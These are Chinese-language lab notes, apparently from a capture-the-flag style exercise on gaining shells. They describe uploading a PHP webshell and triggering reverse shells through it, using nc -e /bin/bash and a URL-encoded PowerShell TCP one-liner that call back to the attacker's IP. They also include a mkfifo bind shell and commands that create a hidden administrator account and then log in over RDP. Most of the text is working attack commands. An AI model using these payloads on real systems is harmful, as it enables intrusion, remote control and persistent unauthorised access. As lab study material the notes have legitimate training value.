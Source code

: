 ### webshell

1. 尝试将 Webshel​​l 上传到Linux机器，然后使用以下命令：nc <LOCAL-IP> <PORT> -e /bin/bash将反向 shell 发送回您自己计算机上等待的侦听器。

  - `nc -nlvp 1234`
  - 创建php文件 webshell.php
      ```php 
      <?php
        if(isset($_GET['cmd']))
        {
            system($_GET['cmd']);
        }
        ?>
      ```
   - 打开被攻击的网址`http://10.10.57.248/`,上传webshell.php
   - 构建url `http://10.10.57.248/uploads/webshell.php?cmd=nc 10.10.21.196 1234 -e /bin/bash`,后面的参数ip为你本地的ip端口为你nc监听的端口(简单说这一步就是访问你刚才上传的文件并传入命令执行)。
   - 然后查看nc 看到连接成功

2. 导航到/usr/share/webshells/php/php-reverse-shell.phpKali 并更改 IP 和端口，以将您的 tun0 IP 与自定义端口相匹配。设置 netcat 监听器，然后上传并激活 shell。
  - 连接ssh `ssh shell@10.10.149.6`
  - 执行 `mkfifo /tmp/f; nc -lvnp 4444 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
  - 执行 `nc 10.10.149.6 4444` 此处的ip是目标机的ip
  - 成功  

3. 在 Windows 目标上上传 Webshel​​l 并尝试使用 Powershell 获取反向 shell。
  - `nc -nlvp 1234`
  - 创建php文件 webshell.php
      ```php 
      <?php
        if(isset($_GET['cmd']))
        {
            system($_GET['cmd']);
        }
        ?>
      ```
   - 打开被攻击的网址`http://10.10.57.248/`,上传webshell.php
   - 构建url `http://10.10.57.248/uploads/webshell.php?cmd=powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.194.117%27%2C1234%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22`,后面的参数ip为你本地的ip端口为你nc监听的端口(简单说这一步就是访问你刚才上传的文件并传入命令执行)。
   - 然后查看nc 看到连接成功

4. 网络服务器正在以系统权限运行。创建一个新用户并将其添加到“管理员”组，然后通过 RDP 或 WinRM 登录。
  - 使用刚才获取的shell
  - `net user test test123 /add`               #添加新用户
    `net localgroup administrators test /add`  #添加用户到管理员组  
  - 使用新用户登录 `xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.91.116 /u:test /p:'test123'`

5. 要求：尝试使用 socat 和 netcat 在 Windows 目标上获得反向和绑定 shell。
  
  下次在搞